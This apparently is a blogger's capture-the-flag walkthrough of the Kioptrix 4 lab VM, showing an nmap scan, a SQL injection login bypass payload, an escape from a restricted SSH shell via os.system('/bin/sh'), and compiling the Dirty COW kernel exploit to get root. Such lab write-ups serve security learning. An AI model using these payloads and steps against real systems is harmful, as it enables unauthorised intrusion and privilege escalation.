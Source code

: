 ```yaml
---
layout: default
title : muzec - Kioptrix 4 Writeup
---
```



![Image](https://imgur.com/usIUJYl.png)

We always start with an nmap scan.....

```Nmap -sC -sV -oA nmap <Target-IP>```

```
# Nmap 7.91 scan initiated Tue Apr  6 05:36:59 2021 as: nmap -sC -sV -oA nmap 172.16.139.136
Nmap scan report for 172.16.139.136
Host is up (0.00043s latency).
Not shown: 566 closed ports, 430 filtered ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 9b:ad:4f:f2:1e:c5:f2:39:14:b9:d3:a0:0b:e8:41:71 (DSA)
|_  2048 85:40:c6:d5:41:26:05:34:ad:f8:6e:f2:a7:6b:4f:0e (RSA)
80/tcp  open  http        Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.28a (workgroup: WORKGROUP)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h59m58s, deviation: 2h49m42s, median: -1s
|_nbstat: NetBIOS name: KIOPTRIX4, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.28a)
|   Computer name: Kioptrix4
|   NetBIOS computer name: 
|   Domain name: localdomain
|   FQDN: Kioptrix4.localdomain
|_  System time: 2021-04-06T05:37:14-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Apr  6 05:37:30 2021 -- 1 IP address (1 host up) scanned in 30.35 seconds
```

4 open ports let check out the port 80 first hmmm a simple login page let burst some directory.

![Image](https://imgur.com/rYwguxx.png)

Some user names i guess going back to the login page to test for sqli.

![Image](https://imgur.com/2au10Qj.png)

Yea it vulnerable now let try it with the username we got from the directory with the username `john` and password ` ' OR '1'='1'-- -` .

![Image](https://imgur.com/uo7U4bs.png)

Cool some credentials let try using it on SSH.

![Image](https://imgur.com/IVVDKBp.png)

Boom we are in but the shell is kind of strange let find a way to bypass the `/bin/kshell` because we keep getting kick out of the SSH.

![Image](https://imgur.com/AFs0KLs.png)

`echo os.system('/bin/sh')` and we bypass it.

![Image](https://imgur.com/eZh7MQQ.png)

Boom and it running a old version of linux yea it dirtycow let confirm it.

![Image](https://imgur.com/Ynoc5WH.png)

So we download the exploit and get it on the attack machine now let complie and run it.

`gcc -pthread dirty.c -o dirty -lcrypt`

Boom now let run it after doing that let log in ssh with the new credentials we just got or we can easily just use the `su firefart` and the password we created with it.

![Image](https://imgur.com/6RRpyaP.png)

And boom we are root.

![Image](https://imgur.com/psOyipo.png)

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>


